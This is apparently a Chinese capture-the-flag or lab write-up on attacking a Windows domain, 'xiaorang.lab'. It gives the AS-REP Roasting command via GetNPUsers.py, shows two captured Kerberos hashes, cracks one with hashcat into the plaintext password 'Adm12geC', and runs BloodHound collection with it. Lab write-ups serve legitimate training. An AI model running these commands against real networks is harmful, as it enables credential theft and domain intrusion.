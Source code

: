 整理信息

```shell
172.22.60.52 本机
172.22.60.15 PC1
172.22.60.42 Fileserver
172.22.60.8 DC
```

根据题目描述, 需要拿到域用户凭据

mysql 导出 flarum 用户的用户名

![image-20230818152150146](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308181521170.png)

顺手先猜一波 AS-REP Roasting

```shell
proxychains GetNPUsers.py -dc-ip 172.22.60.8 xiaorang.lab/ -usersfile user.txt -request -outputfile hash.txt
```

result

```shell
$krb5asrep$23$wangyun@XIAORANG.LAB:4116244ece5abe8c98a2733fb02db760$d1ff8b542c7f951df3e28da060478af310ce91a282797c141f22d31b48931df1ac63e914a353a4790e8a02f9c2bfa7d3543dd40a27e39474d1c74d83fd81a4fa2aaaba895676e55aa234e60d36e5316bfdbc55d571ffaff4c44a8eb2562de5e0cf2a1453308e6443d5a9ac7f867fe3cb68c65cb14e754dca1e7ba02d94ff73c96107cf72293e28b7faeb451474d2e65ffbc1e8cbef5813bc9968731993c6d177e2e18ee8b8cbe5be4292bd958769856fbe118c34c35127dd6b210106668f708439c26da931808274b41c27954f969972ac51f2d0237425ce20d07da7bf9dedec142773c03cced25cdb1b0011
$krb5asrep$23$zhangxin@XIAORANG.LAB:1fad5051938591386d59f1a2982f87bf$eb94cfc9392fe5fab67d73ace00702af130ea68f9efabb9b2066bf51deb60fbaa62a0c5594c2cdc0d702419d92ec9b1415712dfd115d07e41036800820dd0a2935f744c371249893746475c188d87ac94581d2c38727289e9420a26faef9d613eb2418044ff6cfaa692c65b3a1d955ef2af39b5fadd69bf74017a202a00ca69a742edbbcdeedad21abb6d756e8ff9faee1f1dd9559b6405654e0281af7295b6b696a5e221aa4e6468e5a0a09548ff5c46737d0ceb25b4c5833de1e49946c133a1fdc3474b4d8157ae816edae871a3018dbc78afc875be7034de69c200dd0d6eb12658a2242b92706896bb85d
```

hashcat

```shell
hashcat -a 0 -m 18200 --force hash.txt ~/Tools/字典/rockyou.txt
```

result

```shell
wangyun:Adm12geC
```

只有 wangyun 账户能爆破成功, 然后跑一遍 bloodhound

```shell
proxychains bloodhound-python -u wangyun -p Adm12geC -d xiaorang.lab -c all -ns 172.22.60.8 --zip --dns-tcp
```

![image-20230818152824759](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308181528800.png)
